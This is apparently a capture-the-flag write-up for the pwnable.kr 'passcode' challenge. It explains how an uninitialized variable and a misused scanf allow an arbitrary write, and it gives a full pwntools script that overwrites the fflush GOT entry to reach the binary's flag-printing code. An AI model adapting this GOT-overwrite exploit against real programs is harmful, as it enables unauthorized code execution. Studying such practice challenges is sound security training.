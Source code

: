 We have a buffer of size 100, and the same addresses are going to be reused when the program will call ``login``, so the 4 last bytes will be the value for the uninitialized ``passcode1``. This let us choose the value of this variable.

Moreover, ``scanf`` is misused: ``scanf("%d", passcode1);``: as long as we control ``passcode1``, we can write data to arbitrary locations in memory through this scanf.

We are going to use it to modify the ``fflush`` GOT entry. By doing so, next time ``fflush`` will be called, it will jump to an address chosen by us.
When we open the ELF with a disassembler, we find:

```
0x080485d7      c70424a58704   mov dword [esp], str.Login_OK_      
0x080485de      e86dfeffff     call sym.imp.puts               
0x080485e3      c70424af8704   mov dword [esp], str._bin_cat_flag 
0x080485ea      e871feffff     call sym.imp.system                 
```

We will jump to this code.

```python
from pwn import *
elf = ELF("passcode")

bincatflag_str = list(elf.search("/bin"))[0]
catflag_instr  = list(elf.search(asm("mov dword ptr [esp], "+str(bincatflag_str))))[0]

payload1 = ("A"*96)+p32(elf.got["fflush"])
payload2 = str(catflag_instr[0])

shell = ssh("passcode", "pwnable.kr", password="guest", port=2222)
p = shell.process("./passcode")
p.recvuntil("name : ")
p.sendline(payload1)
p.recvuntil("passcode1 : ")
p.sendline(payload2)
p.interactive()

```
